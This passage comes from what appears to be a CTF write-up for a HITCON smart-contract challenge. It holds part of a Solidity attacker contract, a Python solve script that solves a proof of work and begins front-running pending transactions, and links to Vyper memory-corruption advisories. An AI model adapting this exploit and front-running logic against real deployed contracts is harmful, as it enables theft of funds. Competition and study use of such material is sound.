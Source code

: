 ```solidity
            _actions[i] = (lunarian_actions[i] + 2 + draw) % 3;
        }
        for (uint256 i = start; i < len; i++) {
            _actions[i] = (lunarian_actions[i] + 1) % 3;
        }
        actions = _actions;
    }

    function get_actions() external view returns (uint8[] memory) {
        return actions;
    }

    function decide_continue_battle(
        uint256,
        int256
    ) external returns (bool) {
        if (canMerge) {
            land.merge_gems();
        }
        return true;
    }

    receive() external payable {}
}
```

```py
import pwn
import hashlib
import time
from typing import Callable
from threading import Thread

from cheb3 import Connection
from cheb3.utils import load_compiled, decode_data

def connect():
    return pwn.remote("lustrous.chal.hitconctf.com", 31337)

def solve_pow(p):
    cmd = p.recvline_contains(b"python3").decode().strip().split(" ")
    preimage_prefix = cmd[-2].encode()
    bits = int(cmd[-1])
    for i in range(0, 1 << 32):
        your_input = str(i).encode()
        preimage = preimage_prefix + your_input
        digest = hashlib.sha256(preimage).digest()
        digest_int = int.from_bytes(digest, "big")
        if digest_int < (1 << (256 - bits)):
            ans = your_input
            break
    p.sendlineafter(b"YOUR_INPUT =", ans)

def do_battle():
    p = connect()
    p.sendlineafter(b"action?", b"3")
    solve_pow(p)
    p.sendlineafter(b"uuid please:", uuid)
    time.sleep(5)
    p.close()

def frontrun(handler: Callable) -> bool:
    pending_filter = conn.w3.eth.filter('pending')

```

[^concat]: [concat built-in can corrupt memory · Advisory · vyperlang/vyper](https://github.com/vyperlang/vyper/security/advisories/GHSA-2q8v-3gqq-4f8p)
[^abi_decode]: [_abi_decode Memory Overflow · Advisory · vyperlang/vyper](https://github.com/vyperlang/vyper/security/advisories/GHSA-9p8r-4xp4-gw5w)